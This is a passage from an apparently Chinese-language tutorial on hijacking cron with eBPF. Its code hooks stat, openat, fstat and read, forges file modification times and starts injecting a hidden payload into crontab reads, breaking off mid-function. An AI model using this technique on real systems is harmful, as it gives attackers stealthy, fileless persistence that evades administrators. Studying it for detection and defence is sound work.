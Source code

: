 
首先判断读取的文件是否为 `/etc/crontab` 或者 `crontabs` ，这些路径是 cron 用于判断相关配置文件是否被修改了的路径，随后会保存 pid、filename、用于接受文件信息的用户态 buf 指针到全局变量里。

处理 stat 系统调用返回的代码：

```
static __inline int handle_stat()
{
    if (statbuf_ptr == 0)
        return 0;
    bpf_printk("cron %d stat %s\n", cron_pid, filename_saved);
    // conditions:
    // 1. !TEQUAL(old_db->mtim, TMAX(statbuf.st_mtim, syscron_stat.st_mtim))
    // 2. !TEQUAL(syscron_stat.st_mtim, ts_zero)
    __kernel_ulong_t spool_st_mtime = 0;
    __kernel_ulong_t crontab_st_mtime = bpf_get_prandom_u32() % 0xfffff;
    if (!memcmp(filename_saved, SPOOL_DIR, sizeof(SPOOL_DIR)))
    {
        bpf_probe_write_user(&statbuf_ptr->st_mtime, &spool_st_mtime, sizeof(spool_st_mtime));
    }
    if (!memcmp(filename_saved, CRONTAB, sizeof(CRONTAB)))
    {
        bpf_probe_write_user(&statbuf_ptr->st_mtime, &crontab_st_mtime, sizeof(crontab_st_mtime));
    }
    print_stat_result(statbuf_ptr);
    statbuf_ptr = 0;
}

```

在 stat 返回时，我们需要让上节提到的两个条件均通过，同时为了保证在 eBPF 程序 detach 后， `cron` 可以立刻更新为正常的配置，这里将 `SPOOL_DIR` 的 `mtime` 设为 0， `CRONTAB` 设为一个随机的较小数值，这样 `cron` 记录的上一次修改时间就会是这个较小的时间，在下一次循环时会马上更新成原来的配置。

修改 `fstat` 返回的代码与 `stat` 大同小异，只是需要我们先 hook `openat` 的返回处并保存打开的文件描述符的值：

```
static __inline void handle_openat(struct bpf_raw_tracepoint_args *ctx)
{
    if (!memcmp(openat_filename_saved, CRONTAB, sizeof(CRONTAB)))
    {
        open_fd = ctx->args[1];
        bpf_printk("openat: %s, %d\n", openat_filename_saved, open_fd);
        openat_filename_saved[0] = '\0';
    }
}

```

然后当 `fstat` 获取该文件的信息时修改返回值即可。

最后就是在读取文件信息的时候修改处于进程内存里的返回数据，即 hook `read` 系统调用返回的时候：

```
static __inline void handle_read(struct bpf_raw_tracepoint_args *ctx)
{
    if (read_buf == 0)
        return;
    ssize_t ret = ctx->args[1];
    if (ret <= 0)
    {
        read_buf = 0;
        return;
    }
    if (ret < sizeof(PAYLOAD))
    {
        bpf_printk("PAYLOAD too long\n");
        read_buf = 0;
        return;
```